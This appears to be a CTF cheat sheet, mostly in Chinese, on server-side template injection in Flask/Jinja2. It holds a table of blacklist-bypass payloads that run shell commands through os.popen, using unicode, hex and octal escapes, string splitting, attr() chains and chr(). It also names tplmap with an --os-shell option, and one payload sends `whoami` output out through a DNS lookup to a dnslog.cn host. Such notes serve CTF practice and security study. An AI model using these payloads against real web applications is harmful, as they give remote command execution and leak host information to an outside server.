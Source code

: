 # SSTI

![Alt text](../../public/imgs/ssti.png)

[hideandseek](https://www.baidu.com/s?wd=hctf2018+hideandseek)

- linux service 越权
- [Python 原型链污染+Flask Pin](../../../../../blog/text/docs/ctf/scripts/web/web_flask_pin_原型链污染.zip)
- 非预期 unicode 绕过 \uxxxx
- 非预期 hex 绕过 \x32
- python2 tphmap.py -u "url" [--level=3] --os-shell
- fenjing `python -m fenjing webui`

## ssti bypass

| blacklist 过滤 | symbol                                                                      | bypass                                                                                                                                                                                                                    |
| -------------- | --------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `__init__`     | unicode 绕过                                                                | `__init\u005f_`                                                                                                                                                                                                            |
| global         | `''` 引号拼接                                                               | `__init__['__glob''als__']`                                                                                                                                                                                               |
| `{{`           | `{% %}`                                                                     | `{%print(url_for.__globals__['os']['popen']('ls').read())%}` <br> `` {% if url_for.__globals__['os']['popen']('ping `whoami`.kfa554.dnslog.cn').read()=='a' %}1{% endif %} ``                                             |
| `[,]`          |                                                                             | `{{url_for.__globals__.os.popen('ls').read()}}`                                                                                                                                                                           |
| `[,]`          |  中文绕过 `【】`                                                                           | 
| `',"`          | request.values.v1                                                           | 用 burp 发 `{{url_for.__globals__.os.popen(request.values.v1).read()}}&v1=ls`                                                                                                                                             |
|                | `chr()` chr 绕过                                                            | 先找到 chr 再使用 `{{url_for.__globals__.__builtins__.chr}}`<br>`{% set chr=url_for.__globals__.__builtins__.chr%}{{url_for.__globals__.os.popen(chr(108)+chr(115)).read()}}`                                             |
|                | `__getitem__()`                                                             |
| `_`            | `\x5f` 16 进制绕过 <br>`\137` 8 进制绕过                                    | `{{lipsum['\x5f\x5fglobals\x5f\x5f'].os.popen('ls').read()}}` <br> `{{lipsum['\137\137globals\137\137'].os.popen('ls').read()}}`                                                                                          |
| `.` 点         | 1. `[]`中括号绕过 <br>2.`attr()`绕过                                        | `{{url_for['__globals__']['os']['popen']('ls')['read']()}}` 列表/字典 不能 attr(139)，要`attr('__getitem__')(139)` <br> `{{lipsum\|attr('__globals__')\|attr('__getitem__')('os')\|attr('popen')('ls')\|attr('read')()}}` |
| `.` 点         |                                                                             |                                                                                                                                                                                                                           |
| 关键字过滤     | 1.字符串拼接绕过 <br>2.单双引号绕过<br> 3.编码绕过 8/16 进制/unicode/base64 | `{{''['__cl'+'ass__']}}` <br> `{{''['__cl''ass__']}}`                                                                                                                                                                     |
| 数字过滤       | [数字过滤](#数字过滤)                                                       | `{%set zero=([]\|string\|list).index('[')%}{{zero}}`                                                                                                                                                                      |
